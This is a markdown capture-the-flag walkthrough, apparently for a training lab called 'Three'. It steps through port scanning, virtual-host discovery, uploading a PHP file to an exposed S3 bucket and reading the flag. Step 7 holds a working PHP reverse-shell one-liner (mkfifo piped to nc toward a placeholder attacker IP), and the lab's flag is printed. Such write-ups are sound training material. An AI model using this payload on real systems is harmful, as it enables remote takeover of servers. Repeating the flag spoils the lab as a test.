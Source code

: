 # CTF Walkthrough: Three

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** AWS, S3, Gobuster, Virtual Hosts, Reverse Shell, NetCat      
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV -sC 10.129.92.142`
        - Output:
            ```
            PORT   STATE SERVICE VERSION
            22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
            | ssh-hostkey:
            |   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
            |   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
            |_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
            80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
            |_http-title: The Toppers
            |_http-server-header: Apache/2.4.29 (Ubuntu)
            Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
            ```

2. Visit `10.129.92.142`, in the contact section we see `thetoppers.htb`

3. Add `10.129.92.142` to `/etc/hosts`
    - Command: `sudo vim /etc/hosts`
        - Output:
            ```
            10.129.92.142 thetoppers.htb
            ```
4. Sub-Domain bust
    - Command: `gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u thetoppers.htb --append-domain`
        - Output:
            ```
            ===============================================================
            Starting gobuster in VHOST enumeration mode
            ===============================================================
            Found: s3.thetoppers.htb Status: 404 [Size: 21]
            ```
5. Add `s3.thetoopers.htb` to `/etc/hosts`
    - Command: `sudo vim /etc/hosts`
        - Output:
            ```
            10.129.92.142 thetoppers.htb s3.thetoppers.htb
            ```
6. List all s3 buckets
    - Command: `aws --endpoint=http://s3.thetoppers.htb s3 ls thetoppers.htb`
        - Output:
            ```
                                       PRE images/
            2025-04-22 02:11:37          0 .htaccess
            2025-04-22 02:11:37      11952 index.php
            ```
7. Create a reverse shell php file
    - Reverse Shell Script:
        ```
        <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1    |nc <ATTACKING_IP> 1261 >/tmp/f"); ?>
        ```

8. Upload the script
    - Command: `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`

9. Start NetCat
    - Command: `nc -lvnp 1261`

10. Visit `http://thetoppers.htb/shell.php`

11. Get Flag
    - Command: `cat /var/www/flag.txt`
        - Flag : a980d99281a28d638ac68b9bf9453c2b
